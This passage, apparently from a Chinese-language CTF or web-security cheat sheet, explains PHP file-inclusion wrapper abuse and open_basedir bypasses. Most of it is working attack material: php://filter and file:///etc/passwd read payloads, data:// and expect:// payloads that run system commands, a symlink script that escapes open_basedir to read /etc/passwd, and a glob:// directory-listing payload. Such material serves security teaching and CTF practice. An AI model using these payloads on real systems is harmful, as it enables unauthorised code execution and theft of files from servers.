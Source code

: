 **核心原理：**

当命令执行函数被过滤，但文件包含函数（如 `include`, `require`）可用时，可以利用 PHP 支持的各种封装协议 (wrappers) 来读取文件内容或执行代码。

**常用封装协议与利用：**

* **`php://filter` (用于读取文件)：**
    可以对读取的文件内容进行编码转换，常用于读取 PHP 文件源码。
    * **Payload:** `?file=php://filter/read=convert.base64-encode/resource=flag.php`
    * **效果:** `flag.php` 的内容会被 base64 编码后输出到页面，解码即可。

* **`data://` (用于命令执行)：**
    允许将数据直接作为文件内容进行包含执行。
    * **Payload (plain text):** `?file=data://text/plain,<?php system('ls');?>`
    * **Payload (base64):** `?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOz8+`
    * **效果:** `include` 会执行逗号或 base64 解码后的 PHP 代码。

* **`file://` (用于读取本地文件)：**
    直接包含本地文件系统中的文件。
    * **Payload:** `?file=file:///etc/passwd`

* **`expect://` (用于命令执行，需安装 `expect` 扩展)：**
    如果 PHP 安装了 `expect` 扩展，此协议可直接执行系统命令。
    * **Payload:** `?file=expect://ls`

---

### 16. `open_basedir` 绕过 📂

**核心原理：**

`open_basedir` 是 PHP 的安全配置，用于将用户的文件操作限制在指定目录下。绕过的核心思想是利用某些函数或特性的逻辑漏洞，使其在执行路径计算或检查时脱离这个限制。

**绕过技巧：**

* **`symlink()` 函数绕过 (PHP < 8):**
    通过创建多层符号链接，然后删除中间链接并替换为同名目录，可以欺骗路径解析机制，使最终的符号链接指向 `open_basedir` 限制之外的路径。
    ```php
    <?php
    mkdir("A"); chdir("A");
    mkdir("B"); chdir("B");
    mkdir("C"); chdir("C");
    mkdir("D"); chdir("D");
    chdir("../../../../");
    symlink("A/B/C/D", "link_dir");
    symlink("link_dir/../../../../etc/passwd", "exp");
    unlink("link_dir");
    mkdir("link_dir");
    // 访问 exp 文件即可读取 /etc/passwd
    ?>
    ```

* **`glob://` 伪协议绕过 (PHP 5.3+) (仅列目录):**
    `glob://` 伪协议可以与 `DirectoryIterator` 或 `opendir()` 等函数结合，用于列出根目录下的文件和目录，无视 `open_basedir` 限制。但通常不能读取文件内容或列出非根目录。
    ```php
    <?php
    // Payload: ?dir=glob:///*
    $it = new DirectoryIterator($_GET['dir']);
    foreach($it as $f) {
        echo $f->getFilename() . "<br>";
    }
    ?>
    ```
